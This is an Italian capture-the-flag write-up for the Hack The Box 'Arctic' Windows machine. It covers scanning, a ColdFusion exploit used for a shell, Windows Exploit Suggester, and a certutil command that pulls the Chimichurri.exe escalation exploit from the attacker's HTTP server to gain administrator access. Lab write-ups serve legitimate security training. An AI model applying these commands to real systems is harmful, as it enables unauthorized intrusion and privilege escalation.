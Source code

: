# Arctic

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con _nmapAutomator_.

```text
sudo ./nmapAutomator.sh --host 0.0.0.0 --type All
```

Il risultato della scansione è il seguente:

```text
Running all scans on 10.10.14.1

Host is likely running Linux


---------------------Starting Port Scan-----------------------

PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown


---------------------Starting Script Scan-----------------------

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



---------------------Starting Full Scan------------------------

PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

No new ports


----------------------Starting UDP Scan------------------------

No UDP ports are open


---------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Running Vuln scan on all ports
This may take a while, depending on the number of detected services..

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


---------------------Recon Recommendations---------------------

No Recon Recommendations found...


---------------------Finished all scans------------------------

Completed in 12 minute(s) and 46 second(s)
```

Passo quindi alla fase successiva.


## Enumeration
Visito la pagina http://10.10.10.11:8500/:

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-1.png"/>
</p>

Per fare ogni richiesta impiega circa 20 secondi, quindi prima di utilizzare un tool come _gobuster_ o _dirsearch_ provo a scoprire qualcosa "manualmente".

Navigando trovo la pagina http://10.10.10.11:8500/CFIDE/administrator/:

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-2.png"/>
</p>

Utilizzo _searchsploit_ per trovare delle vulnerabilità:

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-3.png"/>
</p>

## Exploitation
Tra queste provo con la 50057. Modifico il file inserendo i valori giusti relativi al mio indirizzo ip e a quello della macchina vittima ed eseguo il codice in python ottenendo una shell:

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-4.png"/>
</p>

**Inoltre, nella cartella dell'utente _tolis_, trovo il primo flag!**


## Privilege Escalation

Utilizzo Windows Exploit Suggester per identificare delle patch mancanti che possono permettere di scalare privilegi.

Per prima cosa aggiorno il database:

```text
python2 windows-exploit-suggester.py --update
```

Copio il risultato del comando _systeminfo_ eseguito sulla macchina vittima e lo salvo all'interno del file _systeminfo.txt_.

Poi lancio l'exploit suggester:

```text
python2 windows-exploit-suggester.py --database 2024-01-08-mssb.xls --systeminfo systeminfo.txt
```

Ottengo il seguente risultato:

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-5.png"/>
</p>

Quindi ci sono diverse possibilità per poter scalare.

Facendo una rapida ricerca mi imbatto in questo [repository](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri):

<p align="center">
  <img src="/Immagini/Windows-Box/Arctic/arctic-6.png"/>
</p>

Quindi avvio un server http sulla porta 8080, scarico la versione compliata del file e lo trasferisco alla macchina tramite il seguente comando:

```text
certutil -urlcache -split -f "http://10.10.14.7:8080/Chimichurri.exe" Chimichurri.exe
```

**Quindi eseguo l'exploit e sono root!**
